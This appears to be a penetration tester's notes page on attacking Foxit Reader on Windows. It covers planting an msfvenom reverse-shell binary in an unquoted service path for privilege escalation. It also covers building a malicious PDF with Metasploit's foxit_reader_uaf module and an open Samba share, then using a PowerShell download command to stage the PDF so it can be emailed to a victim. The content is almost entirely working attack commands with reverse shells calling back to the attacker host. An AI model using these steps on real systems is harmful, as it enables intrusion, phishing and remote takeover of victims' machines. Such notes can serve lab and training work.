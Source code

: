 #### Unquoted Service Path
https://www.exploit-db.com/exploits/36390

In winpeas.txt, we see the service name right above the unquoted service path:

`FoxitCloudUpdateService`

```batch - windows 
sc qc FoxitCloudUpdateService
```

We see that are no quotes around the bin path line.

`BINARY_PATH_NAME : C:\Program Files (x86)\Foxit Software\Foxit Reader\Foxit Cloud\FCUpdateService.exe`

We can now start testing where in this path we have write privileges.  Tested an echo command in Program Files x86,  we get access denied.  Tested in Foxit Software, we are successful at writing out test file. 

```batch - windows
echo "test" > test.txt
```

We place our malicious Foxit.exe file in the Foxit Reader directory.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe -o Foxit.exe
```

![[4._File Transfers#Certutil]]

![[___.Misc Commands#Restart host]]


#### PDF EXE

[https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/](https://prog.world/we-exploit-the-foxit-reader-vulnerability-and-bypass-the-digital-signature-on-the-example-of-the-neoquest-2020-task/)

```bash - kali
sudo apt install samba
```

```bash - kali
sudo mkdir /mnt/files
```

```bash - kali
sudo chmod 777 /mnt/files
```

Now you need to configure the samba server. To do this, open the configuration file /etc/samba/smb.conf and paste the following text there:

```bash - kali
mousepad /etc/samba/smb.conf
```

```bash - kali
[global]  
security = user  
workgroup = MYGROUP  
server string = Samba  
guest account = nobody  
map to guest = Bad User

[share]  
path = /mnt/files  
browseable = Yes  
guest ok = Yes  
writeable = Yes  
public = yes  
```

```bash - kali
sudo service smbd restart
```

```bash - kali
sudo service nmbd restart
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 --arch x86 -f exe -o /mnt/files/exploit.exe
```

```bash - kali
sudo chmod 777 /mnt/files/exploit.exe
```

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/windows/fileformat/foxit_reader_uaf
```

```bash - kali
set LHOST $KALI
```

```bash - kali
set EXENAME exploit.exe
```

```bash - kali
set SHARE share
```

```bash - kali
run
```

```bash - kali
sudo cp /root/.msf4/local/test.pdf .
```


![[Python#Server]]

![[1._rlwrap]]

Download update.pdf on already compromised machine (if you have one), then use email app to send to victim as attachment:
```powershell - target
powershell -c "(new-object System.Net.WebClient).DownloadFile('$KALI:80/WINDOWS/test.pdf','C:/Users/eric/Documents/tools/update.pdf')"
```

